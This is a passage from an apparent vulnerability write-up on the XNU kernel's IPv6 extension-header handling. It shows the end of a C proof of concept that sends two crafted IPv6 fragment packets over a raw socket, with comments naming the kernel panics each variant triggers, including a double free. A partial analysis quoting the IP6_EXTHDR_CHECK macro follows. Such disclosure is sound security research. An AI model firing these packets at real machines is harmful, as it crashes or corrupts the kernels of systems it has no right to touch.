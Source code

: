 ```c
  packet1.frag.ip6f_ident = id;
  // Use IPPROTO_RAW for "assertion failed: m->m_flags & M_PKTHDR" panic
  // Use IPPROTO_ICMPV6 for "m_free: freeing an already freed mbuf" panic
  packet1.dest.ip6d_nxt = IPPROTO_ICMPV6;
  packet1.dest.ip6d_len = 1;
  packet1.dest_opt.ip6o_type = IP6OPT_PADN;
  packet1.dest_opt.ip6o_len = 4;

  memset(&packet2, 'B', sizeof(struct packet2));
  packet2.hbh.ip6h_nxt = IPPROTO_FRAGMENT;
  packet2.hbh.ip6h_len = 0;
  packet2.hbh_opt.ip6o_type = IP6OPT_PADN;
  packet2.hbh_opt.ip6o_len = 4;
  packet2.frag.ip6f_nxt = IPPROTO_DSTOPTS;
  packet2.frag.ip6f_reserved = 0;
  packet2.frag.ip6f_offlg = htons(8);
  packet2.frag.ip6f_ident = id;
  packet2.dest_opt.ip6o_type = IP6OPT_PADN;
  packet2.dest_opt.ip6o_len = 6;

  res = sendto(s, (char *)&packet1, sizeof(packet1), 0,
               (struct sockaddr *)&daddr, (socklen_t)sizeof(daddr));
  if (res < 0) {
    perror("sendto");
    return 1;
  }

  res = sendto(s, (char *)&packet2, sizeof(packet2), 0,
               (struct sockaddr *)&daddr, (socklen_t)sizeof(daddr));
  if (res < 0) {
    perror("sendto");
    return 1;
  }

  close(s);
  return 0;
}
```

## Analysis

*All code snippets are taken from latest `xnu-6153.11.26`.*

### Background

The macro `IP6_EXTHDR_CHECK` ensures that region between the IP6 header and the target header are continuous.

```c
#define IP6_EXTHDR_CHECK(m, off, hlen, action)                          \
do {                                                                    \
    if ((m)->m_next != NULL) {                                          \
	if (((m)->m_flags & M_LOOP) &&                                  \
	    ((m)->m_len < (off) + (hlen)) &&                            \
	    (((m) = m_pullup((m), (off) + (hlen))) == NULL)) {          \
	        ip6stat.ip6s_exthdrtoolong++;                           \
	        action;                                                 \
	} else if ((m)->m_flags & M_EXT) {                              \
	        if ((m)->m_len < (off) + (hlen)) {                      \
	                ip6stat.ip6s_exthdrtoolong++;                   \
	                m_freem(m);                                     \
	                (m) = NULL;                                     \
	                action;                                         \
	        }                                                       \
```
